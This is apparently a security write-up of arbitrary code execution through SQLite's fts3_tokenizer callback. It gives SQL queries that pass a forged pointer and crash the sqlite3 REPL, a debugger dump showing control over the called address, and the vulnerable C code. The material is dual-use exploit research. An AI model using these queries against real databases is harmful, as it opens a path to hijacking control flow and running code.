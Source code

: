 ## Arbitrary Code Execution via Callbacks

The following queries will crash sqlite3 REPL (for 32bit, use `x'41414141'` instead):

```sql
select fts3_tokenizer('mytokenizer', x'4141414141414141');
create virtual table a using fts3(tokenize=mytokenizer);
```

Use a debugger to view the context:

```c
[---------------------code---------------------]
RAX: 0x4141414141414141 (b'AAAAAAAA')
RBX: 0x0
RCX: 0x0
RDX: 0x7fffffffc620 --> 0x0
RSI: 0x0
RDI: 0x0
RBP: 0x0
RSP: 0x7fffffffc4e0 --> 0x3
RIP: 0x7ffff7bab71c (call QWORD PTR [rax+0x8])
R8 : 0x55555579b968 --> 0x656c706d6973 (b'simple')
R9 : 0x0
R10: 0x0
R11: 0x1
R12: 0x0
R13: 0x8
R14: 0x7fffffffc514 --> 0x2e1ef00000000006
R15: 0x555555799f78 --> 0x7ffff7bb39e4 --> 0x746e65746e6f63 (b'content')
[---------------------code---------------------]
 0x7ffff7bab712: mov edi,ebx
 0x7ffff7bab714: mov rdx,QWORD PTR [rsp+0x10]
 0x7ffff7bab719: mov rsi,r12
=> 0x7ffff7bab71c: call QWORD PTR [rax+0x8]
 0x7ffff7bab71f: test eax,eax
 0x7ffff7bab721: mov ebx,eax
 0x7ffff7bab723: jne 0x7ffff7bab790
 0x7ffff7bab725: mov rax,QWORD PTR [rsp+0x10]

```

`RAX` is the second parameter from `fts3_tokenizer`. SQLite3 called the `xCreate` callback with no validation and caused the segment fault. This refers to `sqlite3Fts3InitTokenizer` in `ext/fts3/fts3_tokenizer.c`.

```c
m = (sqlite3_tokenizer_module *)sqlite3Fts3HashFind(pHash,z,(int)strlen(z)+1);
if( !m ){
    sqlite3Fts3ErrMsg(pzErr, "unknown tokenizer: %s", z);
    rc = SQLITE_ERROR;
} else {

char const **aArg = 0;
//...lines omitted...

rc = m->xCreate(iArg, aArg, ppTok);
assert(rc != SQLITE_OK || *ppTok);
if (rc != SQLITE_OK) {
    sqlite3Fts3ErrMsg(pzErr, "unknown tokenizer");
```

